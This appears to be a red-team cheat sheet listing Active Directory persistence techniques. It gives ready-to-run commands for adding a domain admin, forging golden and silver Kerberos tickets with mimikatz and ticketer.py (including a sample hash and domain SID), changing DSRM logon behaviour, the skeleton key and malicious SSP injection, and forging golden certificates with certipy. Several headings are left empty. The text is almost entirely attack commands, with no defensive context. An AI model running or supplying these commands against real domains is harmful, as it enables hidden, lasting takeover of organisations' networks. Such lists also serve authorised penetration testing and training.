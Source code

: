 ### Persistence


Persistence

	net group "domain admins" myuser /add /domain

	Golden ticket
		ticketer.py -aesKey <aeskey> -domain-sid <domain_sid> -domain <domain> <anyuser> 
		    e.g. ticketer.py -nthash a68627b3770be0429e4f33bb0d58e7ce -domain-sid S-1-5-21-3241870433-2322440639-586768333 -domain microsoc winston
		mimikatz "kerberos::golden /user:<admin_user> /domain:<domain> /sid:<domain-sid>/aes256:<krbtgt_aes256> /ptt"

	Silver Ticket
		mimikatz "kerberos::golden /sid:<current_user_sid> /domain:<domain-sid> /target:<target_server> /service:<target_service> /aes256:<computer_aes256_key> /user:<any_user> /ptt"
		ticketer.py -nthash <machine_nt_hash> -domain-sid <domain_sid> -domain <domain> <anyuser>

	Diamond ticket

	Saphire Ticket

	Directory Service Restore Mode (DSRM)
		PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

	Skeleton Key
		mimikatz "privilege::debug" "misc::skeleton" "exit"
			password is mimikatz

	Custom SSP
		mimikatz "privilege::debug" "misc::memssp" "exit"
			C:\Windows\System32\kiwissp.log

	Golden certificate
		certipy ca -backup -ca '<ca_name>' -username <user>@<domain> -hashes <hash>
			certipy forge -ca-pfx <ca_private_key> -upn <user>@<domain> -subject 'CN=<user>,CN=Users,DC=<CORP>,DC=<LOCAL>

	DC shadow

	Acl manipulation
	...

